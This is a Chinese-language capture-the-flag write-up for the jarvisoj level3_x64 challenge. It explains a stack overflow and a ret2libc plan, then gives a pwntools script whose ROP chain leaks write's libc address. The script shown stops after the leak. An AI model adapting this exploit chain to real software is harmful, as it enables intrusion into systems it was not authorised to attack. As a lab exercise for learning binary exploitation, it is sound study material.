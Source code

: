 # 0x028.jarvisoj_level3_x64 - ret2csu + ret2libc

惯例的`checksec`，发现只开了栈不可执行保护

![](img/43526bc3d1e9079c97dea329b1800b3b.png)

拖入IDA进行分析

![](img/dd67b82e3c6ad272c1f96d96535f5a6e.png)

直接就有一个很大的溢出

由于不存在可以直接getshell的gadget，故考虑ret2libc：先泄漏出write函数真实地址后使用LibcSearcher查找libc版本后执行`system("/bin/sh")`即可

两个小gadget的地址如下

![](img/58dc89d972d151539b0395d14c23825f.png)

故构造exp如下：

```
from pwn import *
from LibcSearcher import *
p = process('./level3_x64') 
e = ELF('./level3_x64')
write_got = e.got['write']
write_plt = e.plt['write']
offset = 0x80
pop_rsi_r15_ret = 0x4006b1
pop_rdi_ret = 0x4006b3
payload1 = b'A' * offset + p64(0xdeadbeef) + p64(pop_rsi_r15_ret) + p64(write_got) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(1) + p64(write_plt) + p64(e.sym['main'])

p.recv()
p.sendline(payload1)
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
```